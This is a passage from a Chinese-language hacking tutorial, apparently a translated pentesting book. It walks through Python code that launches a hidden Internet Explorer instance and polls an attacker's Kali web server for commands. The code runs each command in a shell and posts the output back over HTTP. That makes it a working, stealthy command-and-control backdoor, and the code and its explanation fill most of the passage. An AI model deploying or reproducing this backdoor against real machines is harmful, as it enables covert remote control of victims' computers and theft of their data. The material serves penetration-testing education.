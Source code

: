 在这里，我们通过创建一个`InternetExplorer`对象实例并将 Visible 选项设置为 0，意味着 Internet Explorer 将在后台运行。

如果我们将值设置为 1，那么 Internet Explorer 窗口将显示到目标桌面上，这是我们不希望发生的。

```
...
# Paramaeters for POST
dURL = "http://10.10.10.100"
Flags = 0
TargetFrame = ""

while True:

    ie.Navigate("http://10.0.10.100") # Navigate to our kali web server to grab the hacker commands

    while ie.ReadyState != 4: # Wait for browser to finish loading.
        sleep(1)

    command = ie.Document.body.innerHTML

    command = unicode(command) # Converts HTML entities to unicode. For example '&amp;' becomes '&'
    command = command.encode('ascii','ignore') # encode the command into ASCII string and ignore any exception
    print ' [+] We received command ' + command

    if 'terminate' in command: # if the received command was terminate
        ie.Quit() # quit the IE and end up the process 
        break # end the loop

    else: # if the received command was NOT terminate then we inject the command into a shell and store the result in a variable called Data
        CMD = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)

        Data = CMD.stdout.read()
        PostData = buffer( Data ) # in order to submit or post data using COM technique , it requires to buffer the data first
                                  # https://docs.python.org/2/library/functions.html#buffer
        ie.Navigate( dURL, Flags, TargetFrame, PostData ) # we post the comamnd execution result along with the post parameters which we defined earlier..

    sleep(3)
```

接下来，我们开始进入一个无限循环，并导航到我们的 Kali IP 地址。我们将等待浏览器完成加载。如果浏览器没有完全加载页面，我们会休眠一秒钟。请注意，当浏览器加载完成时，`ReadyState`的值为`4`，此时第二个循环将被终止。

接下来，我们将 HTML 页面加载到一个名为`command`的变量中；然后，我们将 HTML 实体转换为`unicode`。最后，我们将命令编码为 ASCII 字符串，并忽略在此过程中可能发生的任何异常。最终结果将是我们应该执行的命令，并且我们会将其打印出来。与我们之前的 Shell 一样，如果我们从 Kali 机器获得`terminate`命令，我们将退出 Internet Explorer 实例并`break`循环。如果命令没有终止，我们就将命令注入到 Shell 中，并将结果存储在一个名为`Data`的变量中。现在，为了使用 COM 技术提交或发布`Data`，首先需要对`Data`进行`buffer`处理，我们使用了 Python 内置的`buffer()`函数来实现这一点。最后，我们将命令执行结果与之前定义的`POST`参数一起提交。我们从未使用过`Flags`或`TargetFrame`，所以我们将它们设置为默认值。这里的主要参数是`dURL`，它定义了我们希望提交数据的目标 URL。

让我们稍微跳到攻击者的一方，这里我们使用的正是之前在 HTTP 反向 Shell 中使用的那个 HTTP Web 服务器。启动目标端脚本后，Internet Explorer 将在后台启动，正如我们从以下截图中的 Windows 任务管理器的进程标签可以看到的那样：
